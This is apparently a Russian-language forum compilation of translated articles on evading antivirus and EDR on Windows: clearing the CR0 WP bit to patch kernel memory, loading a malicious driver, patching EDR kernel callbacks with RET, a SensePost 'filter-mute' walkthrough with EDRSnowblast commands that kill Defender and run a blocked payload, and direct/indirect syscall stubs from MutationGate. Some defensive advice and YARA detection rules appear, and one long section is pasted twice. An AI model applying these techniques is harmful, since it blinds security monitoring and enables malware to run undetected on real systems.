for (ULONG64 processorIndex = 0; processorIndex < LogicalProcessorsCount; processorIndex++)
{
KAFFINITY oldAffinity = KeSetSystemAffinityThreadEx((KAFFINITY)(1i64 << processorIndex));
CR0_WP_OFF_x64();
KeRevertToUserAffinityThreadEx(oldAffinity);
}Как-же обойти PatchGuard:
Мы можем построить нашу стратегию модификации структуры данных ядра вокруг следующих пунктов:
- Очистить бит WP на странице только для записи на каждом ядре
- Сделать наше дело
- Восстановить бит WP
Метод заключается в использовании Deferred Procedure Calls (DPC), механизма в ядре Windows, который позволяет отложить выполнение определённых функций до более подходящего времени, когда уровень прерываний (IRQL) позволяет безопасное выполнение этих задач. Используя DPC, мы можем синхронизировать выполнение кода на всех процессорах системы, чтобы временно отключить флаг защиты от записи (WP) в регистре управления CR0 каждого процессора. Это позволяет модифицировать защищённые области памяти ядра, не вызывая обнаружения PatchGuard.
Как-же загрузить вредоносоный драйвер ?
Что если законно подписанный драйвер уязвим для уязвимости типа Write-What-Where, которая позволяет нам перезаписывать пространство памяти ядра и отключить принудительную проверку подписи драйверов?
На протяжении многих лет это был случай с известным уязвимым драйвером Gigabyte, который использовался для различных целей, от отключения античит-систем видеоигр до вымогательского ПО.
Можно использовать маперы, которые описаны здесь:Дополнительно: Как я RootKit загружал или же как загрузить драйвер без подписи | Цикл статей "Изучение вредоносных программ"
Давайте перейдем к практике и попробуем методику описанную выше на примерах:
1)Загрузите наш вредоносный драйвер, сделать это можно через маперы, но для теста можно временно отключить проверки цифровой подписи и т.д.:
Код:
sc create evil type= kernel binPath= c:\path\to\file\evildriver.sys
sc start evil2)Взаимодействуйте с зловредным драйвером, проверяя зарегистрированные коллбэки в системе:
C:
C:\Users\matteo\Desktop\Debug>evilcli.exe -l
[00] 0xfffff8012154a340 (ntoskrnl.exe + 0x34a340)
[01] 0xfffff801250f4dc0 (cng.sys + 0x14dc0)
[02] 0xfffff80125548610 (klupd_klif_arkmon.sys + 0x18610)
[03] 0xfffff80124f3d870 (ksecdd.sys + 0x1d870)
[04] 0xfffff80126390960 (tcpip.sys + 0x60960)
[05] 0xfffff801269ed930 (iorate.sys + 0xd930)
[06] 0xfffff80125067fc0 (CI.dll + 0x77fc0)
[07] 0xfffff80127161600 (klflt.sys + 0x11600)
[08] 0xfffff801272189d0 (dxgkrnl.sys + 0x89d0)
[09] 0xfffff801283d47f0 (kldisk.sys + 0x47f0)
[10] 0xfffff80127ac9e90 (vm3dmp.sys + 0x9e90)
[11] 0xfffff801294e3ce0 (peauth.sys + 0x43ce0)
[12] 0xfffff8012531f9a0 (mssecflt.sys + 0x1f9a0)Отключите нужный коллбэк, разместив инструкцию RET (C3) на том же смещении. Таким образом, коллбэк просто вернётся к вызывающему и пропустит весь последующий код.
Не используйте другие опции (-z или -d), так как они могут повредить систему.
Код:
C:\Users\matteo\Desktop\Debug>evilcli.exe -p 7
Patching index: 7 with a RET (0xc3)3)Восстановить коллбэк в его исходное состояние после выполнения нужных действий.
Хоть у большинства антивирусов/EDR нет контроля целостности кода, но лучше перестраховаться, особенно чтобы не оставить следов.
Код:
C:\Users\matteo\Desktop\Debug>evilcli.exe -r 7
Rolling back patched index: 7 to the original valuesПо мотивам этой статьи:Silencing the EDR. How to disable process, threads and image-loading detection callbacks. :: — uf0
Обходим антивирусы и EDR
Оригинал:SensePost | Filter-mute operation: investigating edr internal communication
Для нашей ежегодной внутренней хакерской конференции, которую мы назвали SenseCon в 2023 году, я решил изучить взаимодействие между драйвером Windows и его процессом в пользовательском режиме.
Вот некоторые подробности об этом путешествии:
Атакующие могут использовать примитив эксплойта чтения/записи ядра Windows, чтобы избежать взаимодействия между EDR_Driver.sys и его EDR_process.exe. В результате некоторые механизмы обнаружения EDR будут отключены, что сделает его (частично) слепым к злонамеренным полезным нагрузкам.
Этот блог описывает альтернативный подход, который не удаляет колбэки ядра и дает некоторые рекомендации по защите от этой атаки "заглушения фильтра".
Обзор ролей EDR_process.exe и EDR_Driver.sys
Первый вопрос, который приходит на ум, это как приложение EDR (EDR_Process.exe) общается со своим драйвером EDR (EDR_Driver.sys)?
Прежде чем проводить исследование, нам необходимо знать некоторые основы EDR; как агент EDR внедряет свою собственную DLL в процесс при его создании?
Схема внедрения процесса через колбэки, взятая из наблюдений EDR, сделанных Кристофером Веллой, является хорошим резюме.
Я добавил некоторые комментарии о том, что происходит:
Как только хуки установлены, агент EDR (EDR_process.exe) может мониторить / анализировать malware.exe. Вот пример действий, которые он может предпринять:
Если поставщик EDR или операторы команды безопасности (известные как blueteam) настроили правило "блокировать, если вредоносно" в Консоли Безопасности EDR, то процесс malware.exe убивается EDR_Process.exe (или EDR_Driver.sys). Также доступны другие контрмеры, например:
Теперь, прежде чем углубляться во внутреннее общение, я хочу сделать шаг назад и упростить поведение EDR. Внутреннее общение (синие стрелки) и внешнее общение (желтые стрелки) EDR_Process.exe можно визуализировать с помощью простого обзора:
Исследование внутреннего общения EDR
Из пространства памяти ядра Windows, EDR_Driver.sys может использовать несколько API ядра Windows (колбэки) для мониторинга, а затем блокировки вредоносных системных активностей.
Например, API-функция PsSetCreateProcessNotifyRoutine может быть использована для генерации следующих сообщений "журналов мониторинга" благодаря механизму колбэка ядра:
– Журнал = создан новый процесс (PID 5376) с командной строкой C:\notepad.exe
Из пользовательского пространства памяти, EDR_Process.exe может отправлять запросы на действия драйверу и получать от него информацию. Например, "Запрос на действие", поступающий из консоли безопасности EDR, может быть:
– Действие = добавить в черный список C:\notepad.exe
На рисунке ниже я попытался отобразить общие колбэки ядра Windows, используемые в целях мониторинга.
Вопрос, который возникает после создания этого резюме, заключается в том, как избежать взаимодействия между EDR_process.exe и EDR_driver.sys? Ослепление EDR с использованием известных техник
Наиболее распространенные техники ослепления датчиков EDR включают в себя:
ДО обнуления адреса колбэка EDR:
ПОСЛЕ обнуления адреса колбэка EDR:
Мы не будем углубляться в детали по этой теме, она рассмотрена в Дополнительно: Уклоняемся от поведенческого детекта антивируса и EDR | Цикл статей "Изучение вредоносных программ"
Но вы можете заметить на рисунке ниже, что каждый раз, когда вы обнуляете адрес колбэка EDR, это означает, что больше никаких уведомлений (нет "рассылки") не будет отправлено от Windows к EDR_Driver.sys. В итоге, никакие журналы событий не будут отправлены в EDR_Process.exe (и на консоль аналитика безопасности) больше!
Ослепление EDR с использованием альтернативного подхода
В ходе моих исследований по этой теме я задавался вопросом, как избежать взаимодействия между EDR_process.exe и EDR_driver.sys без каких-либо изменений колбэков? Можем ли мы предотвратить обмен "сообщениями" между EDR_process.exe и EDR_Driver.sys?
Мы могли бы представить другой подход, используя эту графическую иллюстрацию:
Пока я пытался исследовать с использованием Windbg, Ярден Шафир написал замечательный блог о Исследовании Портов Коммуникационных Фильтров, который действительно помог.
Я обнаружил некоторые структуры данных Windows, которые манипулируются во время настройки связи между приложением и драйвером.
Структура данных с названием FLT_SERVER_PORT_OBJECT привлекла мое внимание, потому что, похоже, содержала интересные поля, посмотрите, согласны ли вы:
Когда я увидел это, первый вопрос, который пришел мне в голову, был о том, что может произойти, если мы установим MaxConnections равным нулю?
Эта структура данных инициализируется с использованием API драйверов Windows под названием FltCreateCommunicationPort:
Microsoft documentation вот-что говорит:
Что мы можем вывести? Если нам удастся сбросить MaxConnections до нуля, это только предотвратит возникновение новых соединений. Давайте приступим к следующему плану атаки:
Шаг 1: сброс значения MaxConnections
Шаг 2: заставить EDR_Process.exe перезапуститься (вероятно, потребуются высокие привилегии, скорее всего NT SYSTEM)
Шаг 3: наблюдать за поведением EDR
Шаг 1: сброс значения MaxConnections
Первое необходимое условие для этого шага - наличие примитива чтения/записи в режиме ядра, который мы можем использовать для установки значения в 0. Для этого мы будем использовать технику BYOVD (Bring Your Own Vulnerable Driver - Принеси свой уязвимый драйвер) - Техника описана здесь. В качестве второго условия нам нужно найти адрес поля MaxConnections в памяти ядра, верно? Давайте посмотрим, как мы можем получить этот адрес!
Структура fltmgr!_FLT_SERVER_PORT_OBJECT, о которой мы говорили ранее, может быть достигнута через структуру fltmgr!_FLT_FILTER, которая, в свою очередь, может быть достигнута через структуру fltmgr!_FLTP_FRAME, которая может быть достигнута через структуру FLTMGR!_GLOBALS, к которой можно добраться через драйвер FltMgr.sys.
Базовый адрес этого модуля ядра можно получить из пользовательского режима, используя Windows API NtQuerySystemInformation.
Мы можем найти адрес MaxConnections, проходя через структуры данных ядра Windows, начиная от драйвера FltMgr.sys до этого поля!
Вот как это выглядит, когда вы хотите взглянуть на детали, касающиеся драйвера ядра Windows Defender:
Имея знания о расположении памяти MaxConnections, мы можем использовать примитив чтения в режиме ядра, чтобы получить текущее значение, и используя примитив записи в режиме ядра, мы можем установить значение в 0.
Шаг 2: заставить EDR перезапуститься
Эта фаза может быть сложной, поскольку EDR_Process.exe делает все возможное, чтобы защитить себя. Обычно эта программа запускается как служба и будет перезапускаться после ее сбоя, но это нас не беспокоит, поскольку никакое соединение не разрешено EDR_Driver.sys благодаря шагу 1 ;-)
Лично я делаю эту операцию, используя свой собственный инструмент (неподписанный зловредный драйвер), который позволяет нам убивать процесс, даже если он защищен, но также возможно использовать Process Hacker (если он не в черном списке) или, что еще лучше, любые эксплуатируемые "драйверы убийцы процессов".
Я настоятельно рекомендую блогпост Алисы Климент-Поммере (@AliceCliment) "Находка и эксплуатация драйверов убийц процессов с LOL за 3000$", который охватывает эту тему!
Шаг 3: наблюдение за поведением EDR
Давайте создадим вредоносное ПО (исходный код доступен на ired.team) с именем iwanttobeflag.exe, которое блокируется Windows Defender:
Затем мы можем проверить стандартную реакцию на наше вредоносное ПО, копируя вредоносную полезную нагрузку из общей папки на локальный диск. Это вызывает тревогу и блокируется Windows Defender, как и ожидалось: отлично!
copy z:\iwanttobeflag.exe c:\
Теперь у нас есть что-то, что в общем случае должно вызвать тревогу, и мы можем использовать это, чтобы проверить, заглушает ли наша техника EDR.
Реализация плана
Давайте объединим все это в инструмент и проверим, могут ли наши шаги 1 и 2 нарушить оповещение, вызванное на шаге 3.
Вот инструмент (EDRSnowblast):EDRSnowblast - blizzard on EDR drivers
Давайте пройдемся по шагам на живой машине и посмотрим, что произойдет!
1) перечислить драйверы (фильтры), которые загружены в память ядра и идентифицировать Windows Defender: WdFilter находится на 9-й позиции на рисунке ниже
2) получить детали о фильтре WdFilter: например, MaxConnections & NumberOfConnections
3) заглушить WdFilter: установить MaxConnections в ноль
4. (опционально) проверить значение MaxConnections, используя опцию --filter-enum, как было показано ранее
5. определить PID процесса Windows Defender в пользовательском режиме и убить его
6. скопировать нашу вредоносную полезную нагрузку, созданную на шаге 3, и выполнить
8.наслаждаться нашим успехом
Если хотите, вы можете посмотреть видео демонстрации ниже.
Эта техника была успешно протестирована против Windows Defender и двух других поставщиков EDR.
Как защититься / обнаружить?
Мы должны начать с вопроса, какие предпосылки для "заглушения фильтра"?
Самое быстрое решение может быть добавление в черный список известно уязвимых драйверов, избегая их загрузки. Но у этого метода те же ограничения, что и у сигнатур AV; неизвестные уязвимые драйверы не будут блокироваться.
Лучшая защита может быть реализованы разработчиками (Проверка коннкета с EDR):
- Всегда проверять, что EDR_process.exe может подключиться к порту связи EDR_driver.sys. Пример кода, который может достичь этого:
- Статический KDP: драйвер EDR должен вызвать API MmProtectDriverSection для защиты секции своего образа
- Динамический KDP: позволяет драйверу выделять и инициализировать память только для чтения, используя услуги, предоставляемые защищенным пулом, который управляется защищенным ядром, используя API ExAllocatePool3.
Больше деталей о KDP в посте Андреа Аллиеви: Введение в защиту данных ядра.
Для нашей ежегодной внутренней хакерской конференции, которую мы назвали SenseCon в 2023 году, я решил изучить взаимодействие между драйвером Windows и его процессом в пользовательском режиме.
Вот некоторые подробности об этом путешествии:
Атакующие могут использовать примитив эксплойта чтения/записи ядра Windows, чтобы избежать взаимодействия между EDR_Driver.sys и его EDR_process.exe. В результате некоторые механизмы обнаружения EDR будут отключены, что сделает его (частично) слепым к злонамеренным полезным нагрузкам.
Этот блог описывает альтернативный подход, который не удаляет колбэки ядра и дает некоторые рекомендации по защите от этой атаки "заглушения фильтра".
Обзор ролей EDR_process.exe и EDR_Driver.sys
Первый вопрос, который приходит на ум, это как приложение EDR (EDR_Process.exe) общается со своим драйвером EDR (EDR_Driver.sys)?
Прежде чем проводить исследование, нам необходимо знать некоторые основы EDR; как агент EDR внедряет свою собственную DLL в процесс при его создании?
Схема внедрения процесса через колбэки, взятая из наблюдений EDR, сделанных Кристофером Веллой, является хорошим резюме.
Я добавил некоторые комментарии о том, что происходит:
- EDR_Driver.sys может подписаться на несколько типов уведомлений ядра. Можно представить, что эти уведомления похожи на "рассылки", на которые вы подписываетесь в Интернете и получаете по электронной почте от веб-сайта. Например, EDR_Driver.sys может подписаться на службу уведомлений о "создании нового процесса", используя API Windows, названный PsSetCreateProcessNotifyRoutine, после чего, для каждого процесса, созданного системой, драйвер будет получать информацию о нем (родительский PID, командную строку и т.д.)
- Пользователь дважды кликает по malware.exe
- Windows вызывает API CreateProcessW для загрузки malware.exe в память
- EDR_Driver.sys получает уведомление о том, что будет запущен malware.exe.
- EDR_Driver.sys отправляет лог в EDR_Process.exe с сообщением: "Эй! Скоро будет запущен новый процесс под названием malware.exe."
- EDR_process.exe может выбрать действие (или не действовать): "Окей, я буду мониторить этот процесс, создавая хуки в его ntdll.dll"
- Когда malware.exe запускается, он вызывает API Windows. Благодаря установленным хукам, EDR_Process.exe знает, какие API вызываются, и может выяснить, что делает malware.exe
Как только хуки установлены, агент EDR (EDR_process.exe) может мониторить / анализировать malware.exe. Вот пример действий, которые он может предпринять:
- EDR_Process.exe видит следующие вызовы Windows API, которые делает malware.exe:
OpenProcess VirtualAllocEx WriteProcessMemory CreateRemoteThread - EDR_Process.exe классифицирует эту последовательность вызовов API как "вредоносную" и блокирует (убивает) процесс.
- EDR_Process.exe отправляет лог на EDR_C2 (консоль безопасности) с сообщением: "Эй, процесс malware.exe запущен и классифицирован как вредоносный".
Если поставщик EDR или операторы команды безопасности (известные как blueteam) настроили правило "блокировать, если вредоносно" в Консоли Безопасности EDR, то процесс malware.exe убивается EDR_Process.exe (или EDR_Driver.sys). Также доступны другие контрмеры, например:
- Windows-хост может быть удаленно изолирован от сети
- файл malware.exe или дамп памяти может быть загружен для анализа / реверсинга
- аналитик безопасности может выполнять команды на Windows-хосте (из консоли безопасности) для целей расследования
- …
Теперь, прежде чем углубляться во внутреннее общение, я хочу сделать шаг назад и упростить поведение EDR. Внутреннее общение (синие стрелки) и внешнее общение (желтые стрелки) EDR_Process.exe можно визуализировать с помощью простого обзора:
Исследование внутреннего общения EDR
Из пространства памяти ядра Windows, EDR_Driver.sys может использовать несколько API ядра Windows (колбэки) для мониторинга, а затем блокировки вредоносных системных активностей.
Например, API-функция PsSetCreateProcessNotifyRoutine может быть использована для генерации следующих сообщений "журналов мониторинга" благодаря механизму колбэка ядра:
– Журнал = создан новый процесс (PID 5376) с командной строкой C:\notepad.exe
Из пользовательского пространства памяти, EDR_Process.exe может отправлять запросы на действия драйверу и получать от него информацию. Например, "Запрос на действие", поступающий из консоли безопасности EDR, может быть:
– Действие = добавить в черный список C:\notepad.exe
На рисунке ниже я попытался отобразить общие колбэки ядра Windows, используемые в целях мониторинга.
Вопрос, который возникает после создания этого резюме, заключается в том, как избежать взаимодействия между EDR_process.exe и EDR_driver.sys? Ослепление EDR с использованием известных техник
Наиболее распространенные техники ослепления датчиков EDR включают в себя:
- Удаление хуков DLL (пространство пользователя)
- Удаление колбэков ядра (пространство ядра)
ДО обнуления адреса колбэка EDR:
ПОСЛЕ обнуления адреса колбэка EDR:
Мы не будем углубляться в детали по этой теме, она рассмотрена в Дополнительно: Уклоняемся от поведенческого детекта антивируса и EDR | Цикл статей "Изучение вредоносных программ"
Но вы можете заметить на рисунке ниже, что каждый раз, когда вы обнуляете адрес колбэка EDR, это означает, что больше никаких уведомлений (нет "рассылки") не будет отправлено от Windows к EDR_Driver.sys. В итоге, никакие журналы событий не будут отправлены в EDR_Process.exe (и на консоль аналитика безопасности) больше!
Ослепление EDR с использованием альтернативного подхода
В ходе моих исследований по этой теме я задавался вопросом, как избежать взаимодействия между EDR_process.exe и EDR_driver.sys без каких-либо изменений колбэков? Можем ли мы предотвратить обмен "сообщениями" между EDR_process.exe и EDR_Driver.sys?
Мы могли бы представить другой подход, используя эту графическую иллюстрацию:
Пока я пытался исследовать с использованием Windbg, Ярден Шафир написал замечательный блог о Исследовании Портов Коммуникационных Фильтров, который действительно помог.
Я обнаружил некоторые структуры данных Windows, которые манипулируются во время настройки связи между приложением и драйвером.
Структура данных с названием FLT_SERVER_PORT_OBJECT привлекла мое внимание, потому что, похоже, содержала интересные поля, посмотрите, согласны ли вы:
Когда я увидел это, первый вопрос, который пришел мне в голову, был о том, что может произойти, если мы установим MaxConnections равным нулю?
Эта структура данных инициализируется с использованием API драйверов Windows под названием FltCreateCommunicationPort:
C:
NTSTATUS FLTAPI FltCreateCommunicationPort(
[in] PFLT_FILTER Filter,
[out] PFLT_PORT *ServerPort,
[in] POBJECT_ATTRIBUTES ObjectAttributes,
[in, optional] PVOID ServerPortCookie,
[in] PFLT_CONNECT_NOTIFY ConnectNotifyCallback,
[in] PFLT_DISCONNECT_NOTIFY DisconnectNotifyCallback,
[in, optional] PFLT_MESSAGE_NOTIFY MessageNotifyCallback,
[in] LONG MaxConnections
);Microsoft documentation вот-что говорит:
Что мы можем вывести? Если нам удастся сбросить MaxConnections до нуля, это только предотвратит возникновение новых соединений. Давайте приступим к следующему плану атаки:
Шаг 1: сброс значения MaxConnections
Шаг 2: заставить EDR_Process.exe перезапуститься (вероятно, потребуются высокие привилегии, скорее всего NT SYSTEM)
Шаг 3: наблюдать за поведением EDR
Шаг 1: сброс значения MaxConnections
Первое необходимое условие для этого шага - наличие примитива чтения/записи в режиме ядра, который мы можем использовать для установки значения в 0. Для этого мы будем использовать технику BYOVD (Bring Your Own Vulnerable Driver - Принеси свой уязвимый драйвер) - Техника описана здесь. В качестве второго условия нам нужно найти адрес поля MaxConnections в памяти ядра, верно? Давайте посмотрим, как мы можем получить этот адрес!
Структура fltmgr!_FLT_SERVER_PORT_OBJECT, о которой мы говорили ранее, может быть достигнута через структуру fltmgr!_FLT_FILTER, которая, в свою очередь, может быть достигнута через структуру fltmgr!_FLTP_FRAME, которая может быть достигнута через структуру FLTMGR!_GLOBALS, к которой можно добраться через драйвер FltMgr.sys.
Базовый адрес этого модуля ядра можно получить из пользовательского режима, используя Windows API NtQuerySystemInformation.
Мы можем найти адрес MaxConnections, проходя через структуры данных ядра Windows, начиная от драйвера FltMgr.sys до этого поля!
Вот как это выглядит, когда вы хотите взглянуть на детали, касающиеся драйвера ядра Windows Defender:
Имея знания о расположении памяти MaxConnections, мы можем использовать примитив чтения в режиме ядра, чтобы получить текущее значение, и используя примитив записи в режиме ядра, мы можем установить значение в 0.
Шаг 2: заставить EDR перезапуститься
Эта фаза может быть сложной, поскольку EDR_Process.exe делает все возможное, чтобы защитить себя. Обычно эта программа запускается как служба и будет перезапускаться после ее сбоя, но это нас не беспокоит, поскольку никакое соединение не разрешено EDR_Driver.sys благодаря шагу 1 ;-)
Лично я делаю эту операцию, используя свой собственный инструмент (неподписанный зловредный драйвер), который позволяет нам убивать процесс, даже если он защищен, но также возможно использовать Process Hacker (если он не в черном списке) или, что еще лучше, любые эксплуатируемые "драйверы убийцы процессов".
Я настоятельно рекомендую блогпост Алисы Климент-Поммере (@AliceCliment) "Находка и эксплуатация драйверов убийц процессов с LOL за 3000$", который охватывает эту тему!
Шаг 3: наблюдение за поведением EDR
Давайте создадим вредоносное ПО (исходный код доступен на ired.team) с именем iwanttobeflag.exe, которое блокируется Windows Defender:
Затем мы можем проверить стандартную реакцию на наше вредоносное ПО, копируя вредоносную полезную нагрузку из общей папки на локальный диск. Это вызывает тревогу и блокируется Windows Defender, как и ожидалось: отлично!
copy z:\iwanttobeflag.exe c:\
Теперь у нас есть что-то, что в общем случае должно вызвать тревогу, и мы можем использовать это, чтобы проверить, заглушает ли наша техника EDR.
Реализация плана
Давайте объединим все это в инструмент и проверим, могут ли наши шаги 1 и 2 нарушить оповещение, вызванное на шаге 3.
Вот инструмент (EDRSnowblast):EDRSnowblast - blizzard on EDR drivers
Давайте пройдемся по шагам на живой машине и посмотрим, что произойдет!
1) перечислить драйверы (фильтры), которые загружены в память ядра и идентифицировать Windows Defender: WdFilter находится на 9-й позиции на рисунке ниже
Код:
EDRSnowblast.exe filter-enum --kernelmode2) получить детали о фильтре WdFilter: например, MaxConnections & NumberOfConnections
Код:
EDRSnowblast.exe filter-enum --kernelmode --filter-index 93) заглушить WdFilter: установить MaxConnections в ноль
Код:
EDRSnowblast.exe filter-mute --kernelmode --filter-index 94. (опционально) проверить значение MaxConnections, используя опцию --filter-enum, как было показано ранее
5. определить PID процесса Windows Defender в пользовательском режиме и убить его
Код:
tasklist | findstr MsMpEng.exe MsMpEng.exe 2956 Services 0 206,788 K c:\pimpmypid_clt.exe /kill 2956
Код:
copy z:\iwanttobeflag.exe c:
c:\iwanttobeflag.exe8.наслаждаться нашим успехом
Если хотите, вы можете посмотреть видео демонстрации ниже.
Эта техника была успешно протестирована против Windows Defender и двух других поставщиков EDR.
Как защититься / обнаружить?
Мы должны начать с вопроса, какие предпосылки для "заглушения фильтра"?
- вы должны использовать примитив эксплойта чтения/записи ядра Windows – если вы хотите использовать BYOVD (Принеси Свой Уязвимый Драйвер), вы должны иметь SeLoadDriverPrivilege, необходимый для загрузки / выгрузки драйверов (например, локальный администратор, администратор домена, оператор печати домена)
- вы должны быть способны убивать (или перезапускать) пользовательское приложение EDR
- применять патчи Windows: это устраняет уязвимости из ядра Windows и драйверов
- использовать Microsoft VBS (включить HVCI): как вы могли заметить, используемый вектор атаки - BYOVD. Этот вектор известен давно, и Microsoft проделала большую работу, чтобы смягчить это с помощью функций безопасности на основе виртуализации (VBS), доступных в Windows 10, Windows 11, Windows Server 2016 и более поздних версиях. Больше деталей о VBS в документации Microsoft: Безопасность на основе виртуализации (VBS)
- использовать рекомендованные Microsoft правила блокировки драйверов, доступные здесь
- использовать Sysmon или правила Sigma: огромный список известно уязвимых драйверов доступен на www.loldrivers.io, и этот проект предоставляет такого рода правила
Самое быстрое решение может быть добавление в черный список известно уязвимых драйверов, избегая их загрузки. Но у этого метода те же ограничения, что и у сигнатур AV; неизвестные уязвимые драйверы не будут блокироваться.
Лучшая защита может быть реализованы разработчиками (Проверка коннкета с EDR):
- Всегда проверять, что EDR_process.exe может подключиться к порту связи EDR_driver.sys. Пример кода, который может достичь этого:
C:
HANDLE hPort;
HRESULT hr = ::FilterConnectCommunicationPort(L"\\secureEDR",0, nullptr, 0, nullptr, &hPort);
if (FAILED(hr)) {
printf("Error connecting to EDR_driver.sys ! (HR=0x%08X)\n", hr);
if (hr == 0x800704D6) {
printf("ERROR_CONNECTION_COUNT_LIMIT : A connection to the server could not be made because the limit on the number of concurrent connections for this account has been reached.\n");
}
}
// Other common errors you should check are
// ERROR_BAD_PATHNAME (HR=0x800700A1)
// E_FILE_NOT_FOUND (HR=0x80070002)
// E_ACCESSDENIED (HR=0x80070005)
// ERROR_INVALID_NAME (HR=0x8007007B)- Статический KDP: драйвер EDR должен вызвать API MmProtectDriverSection для защиты секции своего образа
- Динамический KDP: позволяет драйверу выделять и инициализировать память только для чтения, используя услуги, предоставляемые защищенным пулом, который управляется защищенным ядром, используя API ExAllocatePool3.
Больше деталей о KDP в посте Андреа Аллиеви: Введение в защиту данных ядра.
MutationGate - Новый подход работы с сисколами
Перевод:MutationGate | Winslow Blog
Мотивация
Учитывая, что встроенные хуки являются основным методом обнаружения, используемым продуктами EDR, обход их является для меня интересной темой.Что касается обхода встроенных хуков, установленных EDR, уже существует довольно много доступных подходов. Хотя некоторые из ранних подходов очень легко обнаруживаются, существуют и несколько зрелых подходов.
Тем не менее, я считаю, что было бы очень интересно найти новый подход к обходу хуков, надеюсь, это принесет некоторые улучшения или преимущества.
Встроенный хук
Продукты EDR (Endpoint Detection and Response) часто размещают встроенные хуки на NTAPI, которые обычно используются в вредоносном ПО, таких как NtAllocateVirtualMemory, NtUnmapViewOfSection, NtWriteVirtualMemory и других. Это связано с тем, что NTAPI является мостом между пользовательским пространством и пространством ядра.Например, NtAllocateVirtualMemory является версией NTAPI функции VirtualAlloc. Размещая безусловную команду перехода в NTAPI, независимо от того, вызывает ли программа Win32 API или NTAPI, EDR способен проверить вызов и далее определить его намерение.
Следующие скриншоты показывают, как выглядит хуки на NTAPI:
А если на NTAPI нет хука, мы можем заметить очень последовательный шаблон, который показывает, как выглядит заглушка системного вызова:
Хотя EDR имеет несколько уровней обнаружения, встроенный хук является одним из основных.
Аппаратная точка останова
В моей статье "Обход AMSI на Windows 11" (Bypass AMSI on Windows 11) я обнаружил, что если R8 равен 0 при вызове AmsiScanBuffer, AMSI можно обойти. Однако я отметил, что использовать этот обход без WinDBG непросто.На самом деле, это возможно, используя аппаратную точку останова. В этой статье (In-Process Patchless AMSI Bypass - Ethical Chaos) объясняется, как использовать аппаратную точку останова для обхода AMSI без патчей.
Это достигается путем установки RAX в 0, изменения аргумента результата сканирования AMSI и установки RIP как адреса возврата, когда выполнение передается функции AmsiScanBuffer. В нашем случае, нам просто нужно установить R8 в 0.
Я не буду здесь подробно объяснять основные знания о аппаратной точке останова и VEH, так как вы можете ознакомиться с ними в статье, а общая идея более важна.
Также на форуме есть статья:Дополнительно: Обход AMSI при помощи хардварных точек останова | Цикл статей "Изучение вредоносных программ"
Некоторые из существующих подходов
Следующие подходы могут быть использованы для обхода встроенного хука. Учитывая, что уже существует множество статей, подробно описывающих их, давайте кратко рассмотрим некоторые из подходов, которые могут обойти встроенный хук.Прямой системный вызов
Каждая Nt-версия Win32 API, такая как NtAllocateVirtualMemory, требует только 4 инструкции для работы, этот набор инструкций называется заглушкой системного вызова (syscall stub). Единственное различие между различными NTAPI - это значение их номера системного вызова.
Код:
mov r10, rcx
mov rax, [SSN]
syscall
retВот пример реализации этого подхода:
В файле .asm определите заглушку системного вызова для NtAllocateVirtualMemory:
Код:
.code
<...Other Stubs...>
NtAllocateVirtualMemory PROC
mov r10, rcx
mov eax, 18h
syscall
ret
NtAllocateVirtualMemory ENDP
<...Other Stubs...>
endВнутри файла заголовка или c/cpp файла используйте макрос EXTERN_C для связывания определения функции с ассемблерным кодом заглушки системного вызова, имя должно быть одинаковым.
C:
EXTERN_C NTSTATUS NtAllocateVirtualMemory(
IN HANDLE ProcessHandle,
IN OUT PVOID * BaseAddress,
IN ULONG ZeroBits,
IN OUT PSIZE_T RegionSize,
IN ULONG AllocationType,
IN ULONG Protect);Таким образом, мы можем напрямую инициировать системный вызов, вызывая определенную функцию. Однако этот подход имеет подозрительные индикаторы компрометации (IOCs):
Жестко закодированная заглушка системного вызова может быть обнаружена, ее шаблон: 4c8bd1 c7c0<DWORD> 0f05c3.
Возможное правило Yara для обнаружения прямого системного вызова выглядит следующим образом:
Код:
rule direct_syscall
{
meta:
description = "Hunt for direct syscall"
strings:
$s1 = {4c 8b d1 48 c7 c0 ?? ?? ?? ?? 0f 05 c3}
$s2 = {4C 8b d1 b8 ?? ?? ?? ?? 0F 05 C3}
condition:
#s1 >=1 or #s2 >=1
}Хотя обойти этот шаблон тривиально, вставив некоторые инструкции, подобные NOP.
У этого подхода есть недостаток: мы жестко закодируем номер системного вызова в исходном коде. Это плохо работает, когда в целевой организации используется несколько версий операционной системы, потому что SSN (System Service Numbers) различаются в разных версиях ОС.
Набор инструментов Syswhisper решает эту проблему: Syswhisper 1 обнаруживает версию ОС хоста и выбирает правильный SSN. Syswhisper 2 динамически получает SSN во время выполнения. В любом случае, прямой системный вызов используется в этих подходах.
Без пользовательской модификации заглушки системного вызова Syswhisper2 возможное правило Yara для обнаружения выглядит следующим образом:
Код:
rule syswhisper2
{
meta:
description = "Hunt for syswhisper2 generated asm code"
strings:
$s1 = {58 48 89 4C 24 08 48 89 54 24 10 4C 89 44 24 18 4C 89 4C 24 20 48 83 EC 28 8B 0D ?? ?? 00 00 E8 ?? ?? ?? ?? 48 83 C4 28 48 8B 4C 24 08 48 8B 54 24 10 4C 8B 44 24 18 4C 8B 4C 24 20 4C 8B D1 0F 05 C3}
condition:
#s1 >=1
}Помимо шаблона последовательностей байтов заглушки системного вызова, выполнение инструкции syscall является ненормальным для легитимной программы, т.е. системный вызов должен инициироваться внутри области памяти ntdll.dll.
Например, при вызове Win32 API SleepEx в программе на C, мы можем заметить стек вызовов следующим образом: sleep!main -> kernelbase!SleepEx -> ntdll!NtDelayExecution -> ntoskrnl!KeDelayExecutionThread.
Однако, если мы инициируем системный вызов напрямую, стек вызовов будет следующим: sleep!main -> sleep!NtDelayExecution -> ntoskrnl!KeDelayExecutionThread.
Легко обнаружить, что инструкция системного вызова инициируется в программе, а не в модуле ntdll.
Косвенный системный вызов
Мы обсудили недостатки прямого системного вызова, поэтому мы хотим избежать выполнения системного вызова напрямую. Косвенный системный вызов является улучшением. Шаблон заглушки системного вызова очень похож на шаблон прямого системного вызова, однако, вместо непосредственного выполнения инструкции системного вызова, заглушка косвенного системного вызова использует безусловный переход для передачи выполнения по адресу инструкции системного вызова.
C:
NtAllocateVirtualMemory PROC
mov r10, rcx
mov eax, (ssn of NtAllocateVirtualMemory)
jmp (address of a syscall instruction)
ret
NtAllocateVirtualMemory ENDPКонечно, нам нужно получить действительный адрес для инструкции системного вызова. Предполагая, что NTAPI не захуклен, мы можем получить номер системного вызова по смещению 0x4 от начала функции, а инструкция системного вызова находится по смещению 0x12.
Однако это приводит нас к проблеме "что было первым: курица или яйцо". Если NTAPI захуклен, то его заглушка системного вызова не будет соответствовать шаблону заглушки системного вызова, и, естественно, мы не сможем успешно извлечь SSN и адрес инструкции системного вызова.
